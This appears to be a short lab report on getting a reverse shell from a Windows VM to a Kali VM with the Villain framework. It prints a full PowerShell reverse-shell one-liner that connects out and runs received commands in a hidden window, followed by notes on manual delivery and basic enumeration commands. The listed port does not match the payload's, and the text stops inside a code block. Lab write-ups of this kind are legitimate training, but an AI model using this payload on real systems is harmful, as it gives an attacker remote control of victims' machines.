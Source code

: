 # Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- Payload: `Start-Process $PSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient('192.168.56.101',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
`
- LHOST: 192.168.56.101
- LPORT: 4444

## 🔁 Payload Delivery Method
-
    To deliver the payload, I executed the reverse shell command directly inside the target Windows VM using **PowerShell**.  
    - First, I opened PowerShell on the Windows machine.  
    - Then, I pasted the payload command that was generated in Villain, which established a reverse TCP connection to my Kali VM.  
    - The payload connected back to my listener (`LHOST` and `LPORT` configured in Villain), giving me an interactive shell session from the target machine.  

    This simulated the attacker’s method of manually executing a malicious payload on the victim system.

## 🖥️ Captured Info
- Hostname: administrator/user
- IP Address: 192.168.56.1
- User: user

## 🔎 Enumeration Performed
```powershell
whoami
ipconfig
systeminfo